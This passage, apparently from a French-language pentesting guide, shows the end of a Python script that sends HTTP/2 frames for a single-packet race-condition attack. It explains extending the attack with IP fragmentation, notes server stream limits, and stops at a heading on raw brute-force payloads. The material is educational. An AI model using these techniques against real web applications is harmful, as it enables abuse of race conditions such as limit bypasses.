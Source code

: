 ```python
temp_data_bytes += bytes(d)

h2_conn.send_bytes(temp_headers_bytes)

# wait some time
sleep(0.1)

# send ping frame to warm up connection
h2_conn.send_ping_frame()

# send remaining data frames
h2_conn.send_bytes(temp_data_bytes)

resp = h2_conn.read_response_from_socket(_timeout=3)
frame_parser = h2_frames.FrameParser(h2_connection=h2_conn)
frame_parser.add_frames(resp)
frame_parser.show_response_of_sent_requests()

print('---')

sleep(3)
h2_conn.close_connection()

response = requests.get(url, verify=False)
```
### Amélioration de l'attaque par paquet unique

Dans la recherche originale, il est expliqué que cette attaque a une limite de 1 500 octets. Cependant, dans [**ce post**](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/), il a été expliqué comment il est possible d'étendre la limitation de 1 500 octets de l'attaque par paquet unique à la **limitation de fenêtre de 65 535 B de TCP en utilisant la fragmentation au niveau IP** (en divisant un paquet unique en plusieurs paquets IP) et en les envoyant dans un ordre différent, ce qui a permis d'empêcher le réassemblage du paquet jusqu'à ce que tous les fragments atteignent le serveur. Cette technique a permis au chercheur d'envoyer 10 000 requêtes en environ 166 ms.&#x20;

Notez que bien que cette amélioration rende l'attaque plus fiable dans les RC qui nécessitent que des centaines/milliers de paquets arrivent en même temps, elle peut également avoir certaines limitations logicielles. Certains serveurs HTTP populaires comme Apache, Nginx et Go ont un paramètre strict `SETTINGS_MAX_CONCURRENT_STREAMS` de 100, 128 et 250. Cependant, d'autres comme NodeJS et nghttp2 l'ont illimité.\
Cela signifie essentiellement qu'Apache ne considérera que 100 connexions HTTP à partir d'une seule connexion TCP (limitant cette attaque RC).

Vous pouvez trouver quelques exemples utilisant cette technique dans le dépôt [https://github.com/Ry0taK/first-sequence-sync/tree/main](https://github.com/Ry0taK/first-sequence-sync/tree/main).

## Raw BF

Avant la recherche précédente, voici quelques charges utiles utilisées qui essayaient simplement d'envoyer les paquets aussi rapidement que possible pour provoquer une RC.
